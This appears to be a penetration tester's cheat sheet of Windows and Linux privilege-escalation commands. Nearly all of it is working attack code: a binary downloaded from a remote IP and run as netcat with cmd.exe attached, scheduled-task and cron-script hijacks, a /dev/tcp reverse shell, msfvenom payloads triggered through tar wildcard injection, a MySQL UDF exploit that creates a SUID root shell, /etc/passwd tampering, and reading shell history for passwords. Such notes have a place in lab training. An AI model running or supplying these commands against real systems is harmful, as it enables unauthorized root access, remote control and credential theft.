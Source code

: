 	Scheduled Task:

		accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
		echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
	
	Bypass upload access denied:
			
			powershell.exe -c "iwr http://192.168.49.139/nc.exe -OutFile C:\temp\nc.exe"
	runas:
	
		runas /env /profile /user:<DOMAIN/PC>\Administrator "C:\temp\nc.exe -e cmd.exe 
	

cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
echo $PATH
export PATH=/tmp:$PATH
/opt/statuscheck
id
cd /root
cat proof.txt


Linux Privilege Escalation::
		
	MYSQL root user - UDF:
		
		gcc -g -c raptor_udf2.c -fPIC
		gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
		mysql -u root
		use mysql;
		create table foo(line blob);
		insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
		select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
		create function do_system returns integer soname 'raptor_udf2.so';
		select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
		/tmp/rootbash -p

	Writeable /etc/passwd:

		openssl passwd newpasswordhere
		root:x:.......  -> change x to pass
		OR - copy the line and change the root username and then su to the new root
		su c0ffee0vrflw

	Cron Jobs - File Permissions:

		cat /etc/crontab
		ls -l /usr/local/bin/overwrite.sh
		change to:
			#!/bin/bash
			bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

	Cron Jobs - Wildcards:

		msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
		chmod +x /home/user/shell.elf
		touch /home/user/--checkpoint=1
		touch /home/user/--checkpoint-action=exec=shell.elf

	SUID / SGID Executables - Known Exploits:

		find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

	 Passwords & Keys - History Files:

	 	cat ~/.*history | less

	 



